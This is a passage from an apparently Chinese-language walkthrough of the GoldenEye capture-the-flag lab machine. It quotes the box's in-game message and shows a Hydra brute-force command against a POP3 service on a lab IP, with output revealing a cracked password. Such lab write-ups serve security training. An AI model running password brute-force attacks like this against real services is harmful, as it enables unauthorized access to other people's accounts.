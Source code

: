 ![image-20220909230718080](../../.gitbook/assets/image-20220909230718080.png)

登录成功，可以在右侧看到这段话

```
GoldenEye is a Top Secret Soviet oribtal weapons project. Since you have access you definitely hold a Top Secret clearance and qualify to be a certified GoldenEye Network Operator (GNO)

Please email a qualified GNO supervisor to receive the online GoldenEye Operators Training to become an Administrator of the GoldenEye system

Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port
```

> GoldenEye 是一个绝密的苏联东方武器项目。由于您有权访问，因此您肯定持有绝密许可并有资格成为经过认证的 GoldenEye 网络运营商 (GNO)
>
> 请向合格的 GNO 主管发送电子邮件，以接受在线 GoldenEye 操作员培训，成为 GoldenEye 系统的管理员
>
> 请记住，由于默默无闻的安全性非常有效，我们已将 pop3 服务配置为在非常高的非默认端口上运行

![QQ录屏20220909231106](../../.gitbook/assets/QQ录屏20220909231106.gif)

接下来对POP3服务进行暴力破解，发现的`boris`账号的密码是：`secret1!`

```
┌──(root💀kali)-[~/Desktop]
└─# hydra -l boris -P /usr/share/wordlists/fasttrack.txt -t20 192.168.32.217 -s55007 -I pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-09 11:16:59
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 20 tasks per 1 server, overall 20 tasks, 222 login tries (l:1/p:222), ~12 tries per task
[DATA] attacking pop3://192.168.32.217:55007/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 122 to do in 00:02h, 20 active
[55007][pop3] host: 192.168.32.217   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-09 11:18:58

```
